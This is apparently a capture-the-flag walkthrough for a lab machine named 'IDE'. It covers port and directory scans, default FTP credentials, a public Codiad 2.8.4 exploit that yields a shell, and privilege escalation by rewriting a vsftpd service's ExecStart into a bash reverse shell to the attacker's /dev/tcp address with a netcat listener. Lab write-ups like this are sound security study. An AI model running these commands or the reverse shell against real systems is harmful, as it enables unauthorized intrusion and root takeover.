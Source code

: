 # IDE

## nmap scan

PORT      STATE SERVICE VERSION \
21/tcp    open  ftp     vsftpd 3.0.3 \
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0) \
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu)) \
62337/tcp open  http    Apache httpd 2.4.29 ((Ubuntu)) \
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel \

## ftp

Here we find the user "john" and the standard password "password"

## gobuster scan

!!on port 80 is nothing!! \
gobuster dir -u http://<IP>:62337 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 

/themes               (Status: 301) [Size: 324] [--> http://10.10.102.130:62337/themes/] \
/data                 (Status: 301) [Size: 322] [--> http://10.10.102.130:62337/data/] \
/plugins              (Status: 301) [Size: 325] [--> http://10.10.102.130:62337/plugins/] \
/lib                  (Status: 301) [Size: 321] [--> http://10.10.102.130:62337/lib/] \
/languages            (Status: 301) [Size: 327] [--> http://10.10.102.130:62337/languages/] \
/js                   (Status: 301) [Size: 320] [--> http://10.10.102.130:62337/js/] \
/components           (Status: 301) [Size: 328] [--> http://10.10.102.130:62337/components/] \
/workspace            (Status: 301) [Size: 327] [--> http://10.10.102.130:62337/workspace/] 

## codiad...

On http://<IP>:62337/ we see the title "codiad 2.8.4". \
If we do some research with "searchsploit" 
- searchsploit codiad 2.8.4 
We can download us the 49705.py exploit. 

## exploit

- python3 49705.py http://<IP>:62337/ john password <YOUR IP> <PORT> linux \
Do what the exploit is saying.. and now you got a shell. 

## privesc

- sudo -l show us "/usr/sbin/service vsftpd restart" \
Lets modify this file. 
"ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<YOUR IP>/<PORT> 0>&1'" \
Save it an reload the daemon. 
- systemctl daemon-reload 
- sudo /usr/sbin/service vsftpd restart 

On your machine start a netcat listener \
nc -lnvp <PORT> \

Now you are root!
